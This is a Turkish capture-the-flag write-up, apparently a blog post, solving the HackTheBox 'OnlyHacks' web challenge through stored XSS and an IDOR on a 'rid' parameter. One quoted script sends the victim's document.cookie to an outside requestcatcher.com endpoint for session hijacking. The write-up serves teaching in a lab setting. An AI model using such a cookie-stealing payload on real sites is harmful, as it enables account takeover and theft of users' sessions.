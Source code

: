 ```yaml
---
title: 'HackTheBox | OnlyHacks WriteUp'
author: appdone
categories: [HackTheBox Challenges]
tags: [idor, xss]
render_with_liquid: false
media_subpath: /images/hackthebox_onlyhacks/
image:
  path: logo.webp
---
```


Bu yazımda HackTheBox platformunda yer alan “OnlyHacks” isimli meydan okumayı çözeceğim. Meydan okuma sevgililer gününe özel olarak hazırlanmış kolay seviye bir web uygulamasıdır.

![](1.webp){: width="1200" height="600" }

Kayıt olduktan sonra doğrudan eşleşmelerin yapıldığı sayfaya yönlendiriliyoruz. Gösterilen herkesi beğendikten sonra “Matches” sayfasına yöneliyoruz ve bir kişi ile eşleştiğimizi görüyoruz.

![](2.webp){: width="1200" height="600" }

Mesajlaşma alanında html etiketleri ve javascript kodları çalıştırabiliyoruz. Mesajlarımızın okunduğunu bildiğimiz için cookie bilgilerini almamızı sağlayacak bir javascript kodu yazabiliriz.

```
<script>
  fetch("https://test12345.requestcatcher.com/cookie?=" + document.cookie);
</script>
```

Cookie bilgilerini yakalamak için requestcatcher.com sitesini kullanacağım.

![](3.webp){: width="1200" height="600" }

Elde ettiğimiz cookie bilgilerini kopyalayıp devtools aracılığıyla kendimizinkiyle değiştiriyoruz. Böylece sayfayı yenilediğimizde bayrağı başka bir kişiden gelen mesaj içerisinde buluyoruz.

![](4.webp){: width="1200" height="600" }

Bunun haricinde mesajları görüntülediğimiz sayfaya rid parametresi ile yönlendirildiğimizi fark etmişsinizdir. Buradaki değeri değiştirdiğimizde aynı şekilde bayrağı görebiliyoruz.

![](5.webp){: width="1200" height="600" }

Kısaca web uygulamasında hem XSS zafiyeti hem de IDOR zafiyeti barınıyor.
